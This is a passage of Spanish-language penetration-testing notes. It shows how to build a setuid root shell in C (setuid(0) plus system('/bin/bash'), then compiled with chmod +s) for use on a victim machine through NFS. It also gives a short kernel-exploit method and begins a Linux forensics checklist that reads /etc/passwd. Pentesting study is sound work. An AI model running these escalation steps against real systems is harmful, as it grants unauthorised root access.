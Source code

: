 
```s
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Ahora compilaremos el archivo
```s
gcc nfs.c -o nfs -w

chmod +s nfs

ls -l nfs
```

Después solamente en la máquina victima tendremos que ejecutar este compilable conun ./ bastará
Otra opción más sencilla es copiar el /bin/bash a la máquina victima y podremos usar este bash privilegiado ahora.

### [](#header-3)Kernel Exploits
La metodolgia es sencilla, solamente hay que:
	1. Identificar la version de kernel
	2. Buscar un exploit para la version de el kernel.
	3. Ejecutar el exploit.
`Podemos buscar estos exploits en Google, recursos como`<a href="https://www.linuxkernelcves.com/cves">la pagina</a>` y la ultima alternativa es LES aunque pueda generar falsos positivos`
*Hay que recordar que un mal exploit de kernel puede ahcer que el sistema crashee y afecte a la prueba de penetracion*
### [](#header-3)Privilege Escalation Scripts 

## [](#header-2)FORENSCIS LINUX (LOGS IMPORTANTES)

Archivos importantes a revisar DENTRO DE UN SISTEMA LINUX:

### [](#header-3)SISTEMA OPERATIVO E INFORMACION DE CUENTAS

#### [](#header-4)Información del sistema Operativo
Revisar la carpeta:
```s
/etc/os-release
```
#### [](#header-4)Información de Cuentas de Usuario
Revisar la carpeta:
```s
/etc/passwd
```
A mi me gusta usarlo con
```s
cat /etc/passwd | grep sh$
```
